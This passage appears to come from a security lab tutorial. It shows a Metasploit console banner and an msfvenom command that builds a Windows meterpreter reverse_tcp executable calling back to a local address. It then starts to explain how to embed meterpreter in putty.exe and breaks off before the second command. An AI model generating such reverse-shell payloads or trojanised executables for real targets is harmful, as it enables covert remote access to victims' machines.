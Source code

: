 ```bash
    X                             /                      /            X
                                 /                     ###
                                /                     # % #
                               /                       ###
                      .       /
     .                       /      .            *           .
                            /
                           *
                  +                       *

                                       ^
####      __     __     __          #######         __     __     __        ####
####    /    \ /    \ /    \      ###########     /    \ /    \ /    \      ####
################################################################################
################################################################################
# WAVE 5 ######## SCORE 31337 ################################## HIGH FFFFFFFF #
################################################################################
                                                           https://metasploit.com


       =[ metasploit v6.0.53-dev                          ]
+ -- --=[ 2149 exploits - 1142 auxiliary - 366 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: Use sessions -1 to interact with the 
last opened session

[*] Processing docker/msfconsole.rc for ERB directives.
[*] resource (docker/msfconsole.rc)> Ruby Code (236 bytes)
LHOST => 172.17.0.3
msf6 > 
```

The graphic changes each time you load it so don't worry if your version doesn't show Missile Command - and in case you were wondering - Missile Command was a very popular video game back in the 1980's :)

We are going to run `msfvenom` from the Metasploit command line to generate two versions of meterpreter executables. The first will run an unmodified meterpreter executable:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.34 LPORT=4443 \
-f exe > /volume1/meterpreter1.exe
```

You don't really have to worry about the parameters but if you are interested, the `LHOST` and `LPORT` arguments tell Meterpreter where to connect back to (i.e. our machine). We haven't set up a listener on port 4443 and our executable actually doesn't send back anything, so these values are just there as a space holder. The `-f exe` tells Meterpreter that we are using an executable format for the payload.

Now we will create a second version that will effectively embed Meterpreter in a normal Windows executable `putty.exe`. Putty is an application that allows SSH connections on a Windows box. I have saved `putty.exe` in the `/volume1` (shared) directory. Run the `msfvenom` command as follows:
